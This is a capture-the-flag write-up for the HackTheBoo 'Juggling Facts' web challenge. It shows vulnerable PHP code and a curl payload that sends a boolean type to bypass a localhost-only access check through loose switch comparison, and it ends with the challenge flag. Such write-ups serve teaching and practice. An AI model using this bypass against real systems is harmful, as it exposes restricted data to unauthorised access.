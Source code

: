# Juggling Facts

## The Problem

Rating: Easy

Flavor Text:
```
An organization seems to possess knowledge of the true nature of pumpkins. Can you find out what they honestly know and uncover this centuries-long secret once and for all?



```

Attachments : [web_juggling_facts.zip](web_juggling_facts.zip)



## Solution

Playing with the app and reviewing the code is fairly fast as this isnt a large amount to review.

I grab a know goold curl command as well for the api call
<img src="./app.png" width="300">



This one all boils down to the getfacts function that initiates the lookup and enforces the filter controllers/IndexController.php:
```
    public function getfacts($router)
    {
        $jsondata = json_decode(file_get_contents('php://input'), true);

        if ( empty($jsondata) || !array_key_exists('type', $jsondata))
        {
            return $router->jsonify(['message' => 'Insufficient parameters!']);
        }

        if ($jsondata['type'] === 'secrets' && $_SERVER['REMOTE_ADDR'] !== '127.0.0.1')
        {
            return $router->jsonify(['message' => 'Currently this type can be only accessed through localhost!']);
        }

        switch ($jsondata['type'])
        {
            case 'secrets':
                return $router->jsonify([
                    'facts' => $this->facts->get_facts('secrets')
                ]);

            case 'spooky':
                return $router->jsonify([
                    'facts' => $this->facts->get_facts('spooky')
                ]);
            
            case 'not_spooky':
                return $router->jsonify([
                    'facts' => $this->facts->get_facts('not_spooky')
                ]);
            
            default:
                return $router->jsonify([
                    'message' => 'Invalid type!'
                ]);
        }
    }
```
posting the types to the api endpoint only defines the one API and the main form views/index.php:
```
$router = new Router();
$router->new('GET', '/', 'IndexController@index');

$router->new('POST','/api/getfacts', 'IndexController@getfacts');

```

when we try the secrets type we hit the filter
curl 'http://139.59.167.169:30660/api/getfacts' --data-raw '{"type":"secrets"}'

"$_SERVER['REMOTE_ADDR'] !== '127.0.0.1'"

this led me to think targeting the address info with X-Forwarded-For would do the trick but nothing there seemed to work:

```
curl 'http://139.59.167.169:30660/api/getfacts' \
  -H 'X-Forwarded-For: 127.0.0.1' \
  --data-raw '{"type":"secrets"}' 
```

Following up on this challenge post event I found mentions of PHP switch case juggling. As this is the hint from the title I dug deeper and eventually on [writeup](https://hotplugin.medium.com/web-challenges-hacktheboo-ctf-2022-ba619cf5dbd5) that detailed the PHP8 formating that results in:

```
"secret"=="secret"  -> true
"secret"==true      -> true
```

this means the attack payload is just:
```
curl 'http://161.35.33.243:30573/api/getfacts' --data-raw '{"type":true}'
```

![](./flag.png)

## Flag
```
HTB{sw1tch_stat3m3nts_4r3_vuln3r4bl3!!!}
```

## Final Notes
